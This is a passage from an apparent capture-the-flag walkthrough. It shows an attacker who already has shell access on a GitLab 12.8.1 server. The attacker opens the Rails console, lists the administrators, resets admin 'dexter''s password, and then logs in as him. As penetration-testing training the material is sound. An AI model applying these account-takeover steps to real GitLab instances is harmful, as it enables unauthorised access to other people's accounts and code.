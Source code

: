 The documentation states that need to start a rails console, which we can do using `gitlab-rails console`.&#x20;

```
git@git:/$ gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
```

We can start some basic enumeration by first finding the administrators:

```
irb(main):002:0> User.admins
User.admins
=> #<ActiveRecord::Relation [#<User id:1 @dexter>]>
```

Then, we can actually reset the password of `dexter`.&#x20;

```
irb(main):005:0> user = User.find_by_username 'dexter'
user = User.find_by_username 'dexter'
=> #<User id:1 @dexter>
irb(main):006:0> new_password = 'Password@123'
new_password = 'Password@123'
=> "Password@123"
irb(main):007:0> user.password = new_password
user.password = new_password
=> "Password@123"
irb(main):008:0> user.password_confirmation = new_password
user.password_confirmation = new_password
=> "Password@123"
irb(main):010:0> user.save!
user.save
Enqueued ActionMailer::DeliveryJob (Job ID: b987cd5d-e2e4-4558-a5ed-31339c1046f4) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007f16f64012a8 @uri=#<URI::GID gid://gitlab/User/1>>
```

Afterwards, we can sign in as `dexter` and view his projects:

<figure><img src="../../../.gitbook/assets/image (123) (2).png" alt=""><figcaption></figcaption></figure>
